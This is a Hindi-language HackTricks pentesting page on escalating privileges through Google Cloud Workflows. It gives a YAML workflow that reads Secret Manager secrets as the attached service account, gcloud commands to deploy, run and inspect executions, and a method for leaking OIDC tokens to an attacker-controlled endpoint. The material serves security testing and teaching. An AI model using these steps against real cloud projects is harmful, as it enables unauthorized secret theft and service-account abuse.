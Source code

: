 # GCP - Workflows Privesc

{{#include ../../../banners/hacktricks-training.md}}

## Workflows

मूल जानकारी:

{{#ref}}
../gcp-services/gcp-workflows-enum.md
{{#endref}}

### `workflows.workflows.create`, `iam.serviceAccounts.ActAs`, `workflows.executions.create`, (`workflows.workflows.get`, `workflows.operations.get`)

मेरी जानकारी के अनुसार, यह संभव नहीं है कि एक शेल प्राप्त किया जाए जिसमें उस मेटाडेटा एंडपॉइंट तक पहुंच हो जिसमें उस Workflow से जुड़े SA के क्रेडेंशियल्स हों। हालांकि, Workflow के अंदर प्रदर्शन करने के लिए क्रियाओं को जोड़कर SA की अनुमतियों का दुरुपयोग करना संभव है।

कनेक्टर्स की दस्तावेज़ीकरण ढूंढना संभव है। उदाहरण के लिए, यह [**Secretmanager कनेक्टर का पृष्ठ**](https://cloud.google.com/workflows/docs/reference/googleapis/secretmanager/Overview)** है।** साइड बार में कई अन्य कनेक्टर्स मिल सकते हैं।

और यहाँ आप एक कनेक्टर का उदाहरण देख सकते हैं जो एक रहस्य प्रिंट करता है:
```yaml
main:
params: [input]
steps:
- access_string_secret:
call: googleapis.secretmanager.v1.projects.secrets.versions.accessString
args:
secret_id: secret_name
version: 1
project_id: project-id
result: str_secret
- returnOutput:
return: "${str_secret}"
```
CLI से अपडेट:
```bash
gcloud workflows deploy <workflow-name> \
--service-account=email@SA \
--source=/path/to/config.yaml \
--location us-central1
```
यदि आपको `ERROR: (gcloud.workflows.deploy) FAILED_PRECONDITION: Workflows service agent does not exist` जैसी त्रुटि मिलती है, तो बस **एक मिनट प्रतीक्षा करें और फिर से प्रयास करें**।

यदि आपके पास वेब एक्सेस नहीं है, तो एक वर्कफ़्लो को ट्रिगर करना और उसकी कार्यान्वयन को देखना संभव है:
```bash
# Run execution with output
gcloud workflows run <workflow-name> --location us-central1

# Run execution without output
gcloud workflows execute <workflow-name> --location us-central1

# List executions
gcloud workflows executions list <workflow-name>

# Get execution info and output
gcloud workflows executions describe projects/<proj-number>/locations/<location>/workflows/<workflow-name>/executions/<execution-id>
```
> [!CAUTION]
> आप संवेदनशील जानकारी की तलाश के लिए पिछले निष्पादन के आउटपुट की भी जांच कर सकते हैं

ध्यान दें कि भले ही आपको `PERMISSION_DENIED: Permission 'workflows.operations.get' denied on...` जैसी त्रुटि मिले क्योंकि आपके पास वह अनुमति नहीं है, कार्यप्रवाह उत्पन्न हो चुका है।

### OIDC टोकन लीक (और OAuth?)

[**दस्तावेज़ों के अनुसार**](https://cloud.google.com/workflows/docs/authenticate-from-workflow) यह संभव है कि कार्यप्रवाह चरणों का उपयोग किया जाए जो OAuth या OIDC टोकन के साथ HTTP अनुरोध भेजेंगे। हालाँकि, [Cloud Scheduler](gcp-cloudscheduler-privesc.md) के मामले की तरह, Oauth टोकन के साथ HTTP अनुरोध को होस्ट `.googleapis.com` पर होना चाहिए।

> [!CAUTION]
> इसलिए, यह **संभव है कि OIDC टोकन को उपयोगकर्ता द्वारा नियंत्रित HTTP एंडपॉइंट को इंगित करके लीक किया जाए** लेकिन **OAuth** टोकन को लीक करने के लिए आपको उस सुरक्षा के लिए **बायपास** की आवश्यकता होगी। हालाँकि, आप अभी भी **SA की ओर से कार्य करने के लिए किसी भी GCP API से संपर्क कर सकते हैं** या तो कनेक्टर्स या OAuth टोकन के साथ HTTP अनुरोधों का उपयोग करके।

#### Oauth
```yaml
- step_A:
call: http.post
args:
url: https://compute.googleapis.com/compute/v1/projects/myproject1234/zones/us-central1-b/instances/myvm001/stop
auth:
type: OAuth2
scopes: OAUTH_SCOPE
```
#### OIDC
```yaml
- step_A:
call: http.get
args:
url: https://us-central1-project.cloudfunctions.net/functionA
query:
firstNumber: 4
secondNumber: 6
operation: sum
auth:
type: OIDC
audience: OIDC_AUDIENCE
```
### `workflows.workflows.update` ...

इस अनुमति के साथ `workflows.workflows.create` के बजाय, एक पहले से मौजूद वर्कफ़्लो को अपडेट करना और वही हमले करना संभव है।

{{#include ../../../banners/hacktricks-training.md}}
